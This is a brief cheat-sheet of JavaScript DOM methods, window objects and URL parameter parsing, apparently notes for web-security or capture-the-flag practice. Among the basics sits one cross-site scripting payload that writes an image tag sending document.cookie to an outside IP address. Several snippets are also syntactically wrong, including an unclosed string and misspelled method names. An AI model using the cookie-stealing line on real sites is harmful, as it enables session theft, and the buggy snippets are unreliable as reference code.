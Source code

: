 # Document Object Model (DOM)

### Basics
```
console.log("Hello World!);

document.cookie


document.getElementById('1');

document.getElementByTagName('div');

document.getElementByClassName('list-items');

document.querySelector(#main-heading);

document.querySelectorAll('div');


document.write('something');

document.write('<img src="http://10.10.14.13/?'+document.cookie+'">');
```

### Event Listeners 
```
element.addEventListener("click", function);

element.addEventListener("mouseover", function);
```

### Window Objects

```
window.alert('1');
 
alert(prompt());

window.location = "http://127.0.0.1"

window.location.search
```

URLSearchParams
```
http://www.somehost.com?name=video#default=1
```

```
let querystring = window.location.search; // ?name=video
let urlParam = new URLSearchParams(querystring);
console.log(urlParam);
let value = urlParam.get('name');
console.log(value);
```

```
(new URLSearchParams(window.location.search)).get('name');
```

```
location.hash //#default=1
```
